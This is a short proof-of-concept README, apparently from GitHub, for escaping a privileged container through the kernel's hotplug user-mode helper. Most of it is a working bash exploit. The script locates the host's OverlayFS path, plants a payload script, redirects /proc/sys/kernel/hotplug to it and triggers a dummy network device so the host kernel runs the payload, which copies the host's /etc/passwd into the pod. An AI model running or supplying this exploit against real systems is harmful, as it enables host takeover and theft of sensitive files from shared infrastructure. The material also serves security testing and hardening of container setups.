 # Container Escape via `/proc/sys/kernel/hotplug` 

> Proof-of-concept demonstrating container escape by leveraging the kernel’s hotplug user-mode helper.

---

## Environment Requirements

- Privileged pod/container

## Proof-of-Concept


```bash
# run the folliwng commands inside the pod

# Extract the OverlayFS upperdir path, which maps to a real directory on the host
host_path=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/mounts)

# Create a payload script that will be executed by the kernel
echo '#!/bin/sh' > /tmp/payload.sh

# The payload reads sensitive host information and writes it to a file inside the pod
echo "cat /etc/passwd > $host_path/output.txt" >> /tmp/payload.sh

# Make the payload executable
chmod a+x /tmp/payload.sh

# Set the kernel's hotplug handler to point to the created payload 
echo "$host_path/tmp/payload.sh" > /proc/sys/kernel/hotplug

# optional: install -y iproute2

# Trigger a hotplug event to invoke the kernel's helper (our payload)
ip link add dummy0 type dummy

```
## Demo

[![asciicast](https://asciinema.org/a/HPAA6MEJhK5xx7aOev0a5f0DV.svg)](https://asciinema.org/a/HPAA6MEJhK5xx7aOev0a5f0DV)

